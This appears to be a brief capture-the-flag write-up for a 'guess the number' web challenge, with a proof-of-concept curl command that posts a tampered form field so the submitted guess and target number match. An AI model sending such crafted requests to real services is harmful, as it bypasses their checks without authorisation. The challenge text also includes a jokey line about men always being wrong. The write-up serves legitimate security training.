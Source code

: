 ## You Gender Is Male \(164\)

> You solve this problem as a Man. Man is always wrong, woman is always right. Guess the number at:
>
> [http://103.200.4.156:8350/](http://103.200.4.156:8350/)

##### POC

```bash
curl -d "guess=0&number=0" -X POST http://103.200.4.156:8350/
```



